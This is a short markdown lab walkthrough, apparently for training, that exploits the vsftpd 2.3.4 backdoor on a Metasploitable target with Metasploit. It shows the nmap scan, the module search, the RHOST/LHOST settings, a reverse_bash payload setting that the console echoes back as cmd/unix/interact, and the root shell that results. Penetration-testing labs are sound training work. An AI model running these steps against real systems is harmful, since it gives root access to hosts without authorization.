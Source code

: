 ```yaml
---
title: Metaploitable Port 21/tcp - vsftpd
updated_at: 2013-11-18 22:28
---
```


# Metaploitable Port 21/tcp - vsftpd

Start with a more complete scan:

```bash

msf > nmap -sV  10.13.37.136 -p 21
[*] exec: nmap -sV  10.13.37.136 -p 21


Starting Nmap 6.40 ( http://nmap.org ) at 2013-11-12 10:34 EST
Nmap scan report for 10.13.37.136
Host is up (0.0018s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix
```

Next, try and search for a relevant exploit:

```bash
msf > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Oh good! It found something so lets configure it to use
`exploit/unix/ftp/vsftpd_234_backdoor`

```bash 
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) >
```

Set the remote (target) port and address and the local receiver host ip:

```bash
msf exploit(vsftpd_234_backdoor) > set RHOST = 10.13.37.136
RHOST => = 10.13.37.136
msf exploit(vsftpd_234_backdoor) > set RPORT = 21
RPORT => = 21
msf exploit(vsftpd_234_backdoor) > set LHOST 10.13.37.116
LHOST => 10.13.37.116
```

Search for aan appropriate payload. _Note: this is done from bash, not from
inside `msfconsole`.

```bash
$ msfpayload -l | grep unix
    ...
    ...
    cmd/unix/interact
    ...
    ...
```

Set the payload as well.

```bash
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/interact
```

Review settings ...

```bash
msf exploit(vsftpd_234_backdoor) > set

Module: unix/ftp/vsftpd_234_backdoor
====================================

  Name                   Value
  ----                   -----
  ...
  LHOST                  10.13.37.116
  PAYLOAD                cmd/unix/interact
  RHOST                  10.13.37.136
  RPORT                  21
  ...
```

... And exploit!

```bash
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (10.13.37.116:54285 -> 10.13.37.136:6200) at 2013-11-12 11:04:25 -0500

whoami
root
ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:e0:62:7f
          inet addr:10.13.37.136  Bcast:10.13.37.255  Mask:255.255.255.0
          ...

exit

[*] 10.13.37.136 - Command shell session 2 closed.  Reason: Died from EOFError

```

Hurray!

